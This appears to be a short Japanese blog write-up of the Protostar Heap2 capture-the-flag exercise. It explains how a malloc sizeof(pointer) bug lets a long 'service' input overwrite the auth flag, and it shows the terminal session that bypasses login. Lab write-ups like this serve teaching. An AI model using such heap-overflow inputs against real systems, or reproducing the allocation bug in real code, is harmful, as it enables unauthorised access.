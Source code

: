 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/23/exploit-exercises-protostar-heap2/
date: 2016-01-23T14:36:33+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap" ]
---
```


# Exploit Exercises Protostar Heap2

0,1と比較して簡単。

## [Protostar Heap2](https://exploit-exercises.com/protostar/heap2/)

``` c
struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
```

に対して、

``` c
auth = malloc(sizeof(auth));
```

としてしまっている。つまり`sizeof(struct auth)`でなく`sizeof(struct auth *)`になっている。

`auth->auth`を真にするだけでよいので簡単。

``` sh
$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x8973008, service = (nil) ]
login
please enter your password
[ auth = 0x8973008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x8973008, service = 0x8973018 ]
login
you have logged in already!
[ auth = 0x8973008, service = 0x8973018 ]
```

